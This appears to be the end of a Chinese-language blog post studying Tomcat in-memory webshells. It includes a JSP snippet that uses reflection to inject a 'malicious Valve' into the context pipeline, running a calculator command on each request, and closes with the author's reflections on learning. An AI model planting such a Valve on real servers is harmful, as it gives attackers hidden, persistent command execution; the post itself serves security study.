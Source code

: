 ![image-20220423171440443](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220423171440443.png)

同时代码稍作修改,也可以往host或者wrapper中添加恶意Valve

```java
<%
    //首先获取context,往context的管道中添加恶意Valve

    Field requestField = request.getClass().getDeclaredField("request");
    requestField.setAccessible(true);

    Request request1 =(Request) requestField.get(request);
    StandardContext context =(StandardContext) request1.getContext();
    //    StandardHost standardHost = (StandardHost) request1.getHost();
    //    StandardWrapper standardWrapper = (StandardWrapper) request1.getWrapper();
    Field pipelineField = ContainerBase.class.getDeclaredField("pipeline");
    pipelineField.setAccessible(true);
    StandardPipeline standardPipeline= (StandardPipeline) pipelineField.get(context);
    //   StandardPipeline standardPipeline2 = (StandardPipeline) pipelineField.get(standardHost);
    //   StandardPipeline standardPipeline3 = (StandardPipeline) pipelineField.get(standardWrapper);

    ValveBase valveBase = new ValveBase(){

        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            Runtime.getRuntime().exec("calc");
        }
    };
    standardPipeline.addValve(valveBase);
    
%>
```

> 参考引用
>
> https://blog.csdn.net/Xxy605/article/details/124120724

### 总结

花了不少时间看大佬的文章,才算将整个流程调试着跟下来并有了浅显的理解,如果不看大佬的分析,估计连有点地方入口在哪都找不到

期间也感受到了基础知识对于看代码是有多么重要,就getClass这一点过去总是误解为它获取的都是当前类的class,还有就是英语也很重要,有时候点进去看个源码的注释,还是得靠英语

加油吧!
